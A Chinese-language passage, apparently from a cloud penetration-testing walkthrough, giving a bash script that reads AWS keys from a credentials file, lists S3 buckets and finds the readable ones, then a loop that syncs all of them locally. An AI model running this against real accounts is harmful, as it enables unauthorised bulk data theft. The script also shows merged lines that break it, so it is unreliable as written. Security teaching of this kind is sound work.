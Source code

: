 这也是坏消息。显然，该帐户有权列出存储桶，但无权读取它们。我们需要能阅读的桶。有几个工具可以做到这一点，但我们总是喜欢编写自己的脚本，以便对幕后发生的事情有更多的控制:

```
cat > enumerateReadBuckets.sh <<EOF
#!/bin/bashfor i in "$@" ; do
 if [[ $i == "--profile" ]] ; then
            profile=$(echo "$@" | awk '{for(i=1;i<=NF;i++) if ($i=="--profile") print $(i+1)}')
            AWS_ACCESS_KEY_ID=$(cat /root/.aws/credentials | grep -i "$profile" -A 2 | grep -i = | cut -d " " -f 3 | head -n 1)
            AWS_SECRET_ACCESS_KEY=$(cat /root/.aws/credentials | grep -i "$profile" -A 2 | grep -i = | cut -d " " -f 3 | tail -n 1)
            break
        fi
doneecho "Enumerating the buckets..."
    aws --profile "$profile" s3 ls | cut -d ' ' -f 3 > /tmp/buckets
echo "You can read the following buckets:"
    >/tmp/readBuckets
for i in $(cat /tmp/buckets); do
    result=$(aws --profile "$profile" s3 ls s3://"$i" 2>/dev/null | head -n 1)
    if [ ! -z "$result" ]; then
            echo "$i" | tee /tmp/readBuckets
                    unset result
    fi
done
EOF
```

您可以用以下命令调用它

```
bash enumerateReadBuckets.sh --profile test
```

![](img/f622afd085e24ce89ce680a5d8f6490f.png)

我们只能得到 4 桶…不算太好，也不算太糟。让我们开始同步所有信息，以便在本地进行分析。

```
for i in $(enumerateReadBuckets --profile test | tail -n +1); do aws s3 sync s3://"$i" .; done
```

![](img/393120ad8318641351888e80dbbf99ee.png)
